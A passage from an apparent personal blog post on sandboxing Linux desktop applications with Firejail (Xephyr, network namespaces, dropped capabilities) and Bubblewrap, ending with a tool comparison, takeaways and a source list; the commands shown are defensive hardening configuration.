unix  2      [ ACC ]     STREAM     LISTENING     14263    @/tmp/.X11-unix/X1
```

This means that there are two sockets are currently running on the X11 server \[30]. The X1 mentioned in the output is a where the jail "connects to the X11 server hosting the GNOME desktop itself...it is the 'outer' (aka 'host') X11 server in this case" \[1]. The "@" in front of the second socket means that it is an abstract socket, "which is independent of the filesystem" \[31]. According to the Firejail docs, "The only way to disable the abstract socket @/tmp/.X11-unix/X0 is by using a network namespace. If for any reasons you cannot use a network namespace, the abstract socket will still be visible inside the sandbox. Hackers can attach keylogger and screenshot programs to this socket." This is essentially saying that we are still vulnerable to the X11 GUI vulnerability. Let's mitigate this by using arguments on Firejail to harden this a bit. I will reference [Sakaki's guide](https://wiki.gentoo.org/wiki/User:Sakaki/Sakaki's\_EFI\_Install\_Guide/Sandboxing\_the\_Firefox\_Browser\_with\_Firejail#Demonstrating\_the\_X11\_Vulnerability) here mostly. It is a great resource, so I would recommend checking it out if you want an in-depth look into Firejail. First let's look at the "--x11=" argument. There are 4 options for this argument: Xorg, Xephyr, Xpra, and Xvfb. Xephyr and Xpra are the main arguments mentioned in the Firejail documentation, so I will focus on those. I was able to find a good explanation comparing the two online \[32]:

" Xephyr is a nested X server displaying its root window (the desktop) inside an X window; Xpra is the X equivalent of screen or tmux, providing a virtual X environment and the ability to display the desktop or individual application windows locally or remotely, attaching and detaching as necessary.

Xpra can also forward audio, the clipboard and printing services. It provides nested X, but as a subset of everything it can do. "

In addition, the Firejail documentation does mention that Xpra is forwarding X11 applications, while Xephyr is an X server itself \[30]. Similar to Sakaki, I do believe that Xephyr is the solution we need for our use.

Straight out of the gate, with Xephyr, we can see a difference in socket name. Running `firejail --x11=xephyr --xephyr-screen=854x480 firefox`, we now see a change:

```
unix  2      [ ACC ]     STREAM     LISTENING     44486    /tmp/.X11-unix/X130
unix  2      [ ACC ]     STREAM     LISTENING     14264    /tmp/.X11-unix/X1
unix  2      [ ACC ]     STREAM     LISTENING     44485    @/tmp/.X11-unix/X130
unix  2      [ ACC ]     STREAM     LISTENING     14263    @/tmp/.X11-unix/X1
```

The X130 socket is what Firefox now has access to as well:

<figure><figcaption></figcaption></figure>

This is the X11 Xephyr server socket. However, just this change is not enough for GUI isolation. To fix this issue, we need to isolate the host X11 sockets by having them to have their own network namespace. "Network namespaces: these enable containers to have their own network devices, IP addresses, ARP and routing tables, netfilter rules etc.: essentially an isolated network stack" \[1]. To do this, we just add an extra argument: "--net=". These networks can be found by running `ip addr | grep -oP '\d:\s(\w+)' | awk '{print $2}'`, if your distribution supports the `ip addr` command. For my case, I only have two outputs: lo and enp1s0. Since lo is localhost, this won't be able to help us a lot for this, as this is not the network interface the data is going out from. **This will not work for a Wi-Fi interface \[1].** If you did want to get this running for a Wi-Fi interface, I would recommend checking out this section: [https://wiki.gentoo.org/wiki/User:Sakaki/Sakaki's\_EFI\_Install\_Guide/Sandboxing\_the\_Firefox\_Browser\_with\_Firejail#Comms\_Isolation\_via\_Network\_Namespaces](https://wiki.gentoo.org/wiki/User:Sakaki/Sakaki's\_EFI\_Install\_Guide/Sandboxing\_the\_Firefox\_Browser\_with\_Firejail#Comms\_Isolation\_via\_Network\_Namespaces)

In order to prevent privilege escalation from an application, we need two arguments: `--caps.drop=all` and `--nonewprivs`. The first argument drops all capabilities and "causes subsequent attempts by the process (or its children) to load kernel modules, escalate privileges, replace the kernel, restart the system etc. to be rejected" \[1]. The second argument "prevents any privilege escalation via execve; it is automatically set if a seccomp-bpf filter is in use, and for avoidance of doubt is explicitly set by firejail's default firefox profile too" \[1].

Combining all of these arguments gets us the following: `firejail --x11=xephyr --xephyr-screen=854x480 --net=enp1s0 --caps.drop=all --nonewprivs application_name`. Running a version of this command showed an error:

<figure><figcaption></figcaption></figure>

There was an issue created for this on GitHub already ([https://github.com/netblue30/firejail/issues/2638](https://github.com/netblue30/firejail/issues/2638)), so I used the solution here to get it working. I tried updating just the Firefox Firejail profile by disabling the "netfilter" setting, but that did not change anything. After I changed "restricted-network yes" to "restricted-network no" in `/etc/firejail/firejail.config`, I was able to get Firefox working.

You can spend hours building specific profiles per application. For Firefox, I was able to find a reasonable command online: `firejail --noprofile --nogroups --private=~/firejail/ --private-dev --private-tmp --ipc-namespace --machine-id --noroot --caps.drop=all --seccomp --debug --trace --nosound --no3d firefox --new-instance` \[33]. This does the following:

```
--noprofile              #Disables the default profile
--nogroups               #Disable supplementary groups
--private=~/firejail/    #Use directory as user home
--private-dev            #Create a new /dev directory
--private-tmp            #Create a new /tmp directory
--ipc-namespace          #Enable a new IPC namespace if the sandbox was started as a regular user
--machine-id             #Spoof id number in /etc/machine-id file
--noroot                 #Install  a user namespace with a single user - the current user
--caps.drop=all          #Drop all capabilities for the processes running in the  sandbox
--seccomp                #Enable seccomp filter and blacklist the syscalls
--debug                  #Print debug messages
--trace                  #Trace  open,  access  and  connect  system calls
--nosound                #Disable sound system
--no3d                   #Disable 3D hardware acceleration
firefox --new-instance   #Open new instance, not a new window in running instance.
```

I would of course tweak things to this for myself, such as add `--dns=address=9.9.9.9` (Quad9) and `--x11=xephyr` or some of the other options here: https://firejail.wordpress.com/documentation-2/firefox-guide/. I'll definitely have to dedicate a session to figuring this out for each app I use Firejail with. If you like the configurations that come default with Firejail, you can run `sudo firecfg` and it will take the applications you have in /usr/local/bin/ and create a symbolic link to the profiles. This means you can run `firefox` on the command line and firefox will start up as if you typed `firejail firefox`. If you end up disliking it, you can just run `sudo firecfg --clean`, and it will remove the symbolic links. You can also convert a command and build a profile for yourself if you choose to as well. You can check out the documentation regarding this here: [https://firejail.wordpress.com/documentation-2/building-custom-profiles/](https://firejail.wordpress.com/documentation-2/building-custom-profiles/). You can also use firetools ([https://github.com/netblue30/firetools](https://github.com/netblue30/firetools)), which is a Firejail GUI, to make creating profiles easier.

Firejail does do a good job in sandboxing a applications, but Firejail itself is not recommended by privacy professionals to use due to what it is: a large SUID binary. This allows Firejail to run with the privileges of the owner of the Firejail executable: root \[34]. This means any vulnerability in Firejail can lead to privilege escalation on the system \[34]. If you look at the CVEs for Firejail, there are 18 (as of writing this post): [https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=firejail](https://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=firejail), with multiple of them being privilege escalation vulnerabilities \[34].

Overall, Firejail is a pretty good tool to use for sandboxing and does allow one to customize it pretty well. However, if I can find an alternate in Bubblewrap, which is not using SUID to work, that would be ideal for me.

## Bubblewrap

After trying to get Bubblejail (a wrapper for Bubblewrap) to work (see: [https://github.com/igo95862/bubblejail/issues/129](https://github.com/igo95862/bubblejail/issues/129)), I went to Bubblewrap directly to see how to set it up. Bubblewrap is a "tool for constructing sandbox environments" \[11]. "bubblewrap works by creating a new, completely empty, mount namespace where the root is on a tmpfs that is invisible from the host, and will be automatically cleaned up when the last process exits. You can then use commandline options to construct the root filesystem and process environment and command to run in the namespace" \[11].

Bubblewrap is a bit limited in terms of what it can sandbox and what it cannot. On the GitHub page, they mention: "Firejail knows about Pulseaudio, whereas bubblewrap does not" (Pulseaudio is a audio server on Linux) \[35]. Bubblewrap also has the main namespaces as features for users to use as well \[35]:

```
User namespaces (CLONE_NEWUSER): This hides all but the current uid and gid from the sandbox. You can also change what the value of uid/gid should be in the sandbox.

IPC namespaces (CLONE_NEWIPC): The sandbox will get its own copy of all the different forms of IPCs, like SysV shared memory and semaphores.

PID namespaces (CLONE_NEWPID): The sandbox will not see any processes outside the sandbox. Additionally, bubblewrap will run a trivial pid1 inside your container to handle the requirements of reaping children in the sandbox. This avoids what is known now as the Docker pid 1 problem.

Network namespaces (CLONE_NEWNET): The sandbox will not see the network. Instead it will have its own network namespace with only a loopback device.

UTS namespace (CLONE_NEWUTS): The sandbox will have its own hostname.

Seccomp filters: You can pass in seccomp filters that limit which syscalls can be done in the sandbox. For more information, see Seccomp.
```

Let's jump into how to create a command/script/profile for each application we plan to sandbox. The Bubblewrap documentation was pretty dry for me, so I was able to piece together what I needed from the following sources, which I will mainly reference going forward (I will cite other sources if I use them, but not the following for this section going forward):

```
https://regginator729.wordpress.com/2017/12/12/using-bubblewrap-as-sandbox/
https://misile00.github.io/notes/Bubblewrap
https://wiki.archlinux.org/title/Bubblewrap/Examples
https://sloonz.github.io/posts/sandboxing-1/
```

On first glance, one thing I noticed in the Bubblewrap man page is that it did not have a way to add a DNS setting to the sandbox, as Firejail has `--dns=address`. My assumption is that this would man that the DNS it uses is the DNS the system uses. For now, let's discuss building up a Bubblewrap "profile" by using parameters. There are a lot of parameters, and those can be seen by doing a `bwrap --help`. I see 55 parameters (excluding "--help"). In addition, similar to [https://regginator729.wordpress.com/2017/12/12/using-bubblewrap-as-sandbox/](https://regginator729.wordpress.com/2017/12/12/using-bubblewrap-as-sandbox/), I will be slowly adding up and building up parameters for Bubblewrap until it feels sufficient for me.

I started off by giving the app read-only permission on my system. In addition, clear out the environment variables (this leaks information about your configuration and system - we can add variables as needed):

`bwrap --ro-bind / / --clearenv bash`

We can see this working already:

<figure><figcaption></figcaption></figure>

We can then change the local /tmp directory to be the $HOME directory of the sandboxed application:

`bwrap --ro-bind / / --bind /tmp $HOME --clearenv bash`

NOTE: If you get the `bwrap: execvp bash: No such file or directory` error, you will have to run `ldd $(which bash)` (replace bash with application name) to find out the libraries that bash uses. From there, you can "import" those libraries into the bubblewrap command (ex. `bwrap --ro-bind /usr /usr --ro-bind /bin /bin --ro-bind /lib /lib --ro-bind /lib64 /lib64 --ro-bind /sbin /sbin --ro-bind /etc /etc bash`).

Let's unshare the user and unshare the network:

`bwrap --ro-bind / / --bind /tmp $HOME --clearenv --unshare-net --unshare-user bash`

For some reason the network was unshared, but the user was not shared initially anyway, thus no "unshare". I kept this command either way.

<figure><figcaption></figcaption></figure>

We can add a hostname here as well. This can prevent us "leaking" the Operating system we are using:

`bwrap --ro-bind / / --bind /tmp $HOME --clearenv --unshare-net --unshare-user --hostname hostname --unshare-uts bash`

The `--hostname` parameter needs `--unshare-uts` to work, so that was added as well.

Finally, lets add the following:

1. a devtmpfs file system (`--dev /dev`)
2. temporary /var folder (`--tmpfs /var`)
3. an isolated /proc folder for processed (`--proc /proc`)
4. temporary $HOME (`--tmpfs $HOME`)
5. unshare PIDs so sandbox can't see apps outside of sandbox (`--unshare-pid`)

Adding all this, we have the following:

```
bwrap --ro-bind / / --bind /tmp $HOME --clearenv --unshare-net --unshare-user --hostname hostname --unshare-uts --unshare-pid --dev /dev --tmpfs /var --proc /proc --tmpfs $HOME bash
```

<figure><figcaption></figcaption></figure>

We can convert this into a script to make it easy to make changes and to use as a default "profile" when using other applications with Bubblewrap as well. This is easily done by adding a `\` after each parameter:

```
#/usr/bin/env bash

bwrap \
--ro-bind / / \
--bind /tmp $HOME \
--clearenv \
--unshare-net \
--unshare-user \
--hostname hostname --unshare-uts \
--unshare-pid \
--dev /dev \
--tmpfs /var \
--proc /proc \
--tmpfs $HOME \
"$@"
```

The "$@" at the end refers to the command **and its arguments**. If you just wanted to get the command only, then it would be "$1".

You can go really in-depth with this and get to seirdy's level: [https://git.sr.ht/\~seirdy/bwrap-scripts/tree/trunk/item/firefox-sandbox](https://git.sr.ht/\~seirdy/bwrap-scripts/tree/trunk/item/firefox-sandbox). madaidan summarizes the situation well: "Unfortunately, bubblewrap isn't very widespread and can be difficult to learn. Bubblewrap is essentially a bare bones wrappers around namespaces and seccomp. A user would need decent knowledge on how the filesystem, syscalls and so on work to properly use it" \[34]. In addition, on Bubblewraps README.md, it says "bubblewrap is a tool for constructing sandbox environments. bubblewrap is not a complete, ready-made sandbox with a specific security policy" \[35].

## Firejail vs. Bubblewrap

From a security perspective, Bubblewrap seems to be the obvious choice due to the smaller attack surface (SUID configuration). However, due to its higher learning curve, it puts some people off who would like to leverage sandboxing applications. I did come across [https://wiki.archlinux.org/title/Bubblewrap#Using\_X11](https://wiki.archlinux.org/title/Bubblewrap#Using\_X11) during my research, where X11 gets brought up. With Firejail, I had the in-built option to use Xephyr to prevent the user's socket to be accessible by the sandbox. This is not a built in feature in Bubblewrap, but can be integrated externally (yet another thing you will have to configure yourself). There is a good summary at the bottom of [https://hkubota.wordpress.com/2020/12/31/comparing-sandboxing-tools/](https://hkubota.wordpress.com/2020/12/31/comparing-sandboxing-tools/) as well, comparing these solutions.

## Firejail and Bubblewrap Learning Curve

After trying to play around and create profiles for both Firejail and Bubblewrap, I understood the difficulty in creating a custom profile. In order to do this, you need to learn about D-Bus, and also have knowledge about X11 vs. Wayland, PCI devices, etc. In addition, in order to make sure the permissions are not too granular or too permissive you have to read each line to make sure it is perfect for your use case. Even with `firejail --build=application_name.profile application`, you have a profile **which is not usable out of the gate.** Using the output of syslog and other system log files, and then appending to a firejail/Bubblewrap profile, is not ideal in my opinion for even technical users. To clarify, I am not asking for a perfect out of the box software; I am just asking for a solution that makes sandboxing just a bit easier to understand and maintain out of the box.

## Key Takeaways

1. I need to switch to Wayland to mitigate the X11 vulnerability, as the sandboxing solutions did not pan out as expected
2. I need to run `flatpak update` instead of `flatpak update -y` to make sure I do not override any past permissions
3. While downloading a new Flatpak or Snappy app, I need to be cognizant of what permissions I allow it to have
4. Firejail and Bubblewrap (and even Bubblejail) need **a lot** of maintenance to create profiles. Doing this for every single application using these tools is not ideal

## Sources

1. https://wiki.gentoo.org/wiki/User:Sakaki/Sakaki's\_EFI\_Install\_Guide/Sandboxing\_the\_Firefox\_Browser\_with\_Firejail
2. https://security.stackexchange.com/questions/3589/passive-and-active-attacks-via-x11-is-wayland-any-better
3. https://en.wikipedia.org/wiki/X.Org\_Server
4. https://theinvisiblethings.blogspot.com/2010/08/ms-dos-security-model.html
5. https://madaidans-insecurities.github.io/guides/linux-hardening.html
6. https://unix.stackexchange.com/questions/345344/difference-between-xorg-and-gnome-kde-xfce
7. https://privsec.dev/posts/linux/desktop-linux-hardening/
8. https://www.flatpak.org/setup/Debian
9. https://docs.flatpak.org/en/latest/introduction.html
10. https://docs.flatpak.org/en/latest/under-the-hood.html
11. https://github.com/containers/bubblewrap
12. https://www.packtpub.com/en-us/product/mastering-linux-security-and-hardening-9781837630516
13. https://www.win.tue.nl/\~aeb/linux/kbd/scancodes-1.html
14. https://stackoverflow.com/questions/9210525/how-do-i-convert-hex-to-decimal-in-python
15. https://www.geeksforgeeks.org/python-create-a-list-of-tuples/
16. https://flatkill.org/
17. https://flatkill.org/2020/
18. https://xkcd.com/1200/
19. https://tesk.page/2021/02/11/response-to-flatkill-org/
20. https://privsec.dev/posts/linux/desktop-linux-hardening/#flatpak
21. https://man.archlinux.org/man/flatpak-override.1
22. https://en.wikipedia.org/wiki/Snap\_(software)
23. https://ubuntu.com/blog/a-guide-to-snap-permissions-and-interfaces
24. https://snapcraft.io/docs/snap-confinement
25. https://askubuntu.com/questions/1206951/how-can-snap-permissions-be-viewed-and-modified
26. https://snapcraft.io/docs/interface-management
27. https://en.wikipedia.org/wiki/Seccomp
28. https://github.com/netblue30/firejail
29. https://en.wikipedia.org/wiki/Berkeley\_Packet\_Filter
30. https://firejail.wordpress.com/documentation-2/x11-guide/
31. https://www.man7.org/linux/man-pages/man7/unix.7.html
32. https://unix.stackexchange.com/questions/608203/whats-the-difference-between-xpra-and-xephyr
33. https://anyon3.github.io/firejail.html
34. https://madaidans-insecurities.github.io/linux.html
35. https://github.com/containers/bubblewrap
36. https://github.com/igo95862/bubblejail
37. https://regginator729.wordpress.com/2017/12/12/using-bubblewrap-as-sandbox/
38. https://misile00.github.io/notes/Bubblewrap
39. https://wiki.archlinux.org/title/Bubblewrap/Examples
40. https://sloonz.github.io/posts/sandboxing-1/
41. https://git.sr.ht/\~seirdy/bwrap-scripts/tree/trunk/item/firefox-sandbox
42. https://wiki.archlinux.org/title/Firejail
43. https://odysee.com/@netblue30:9/profiles:0
44. https://firejail.wordpress.com/documentation-2/building-custom-profiles/
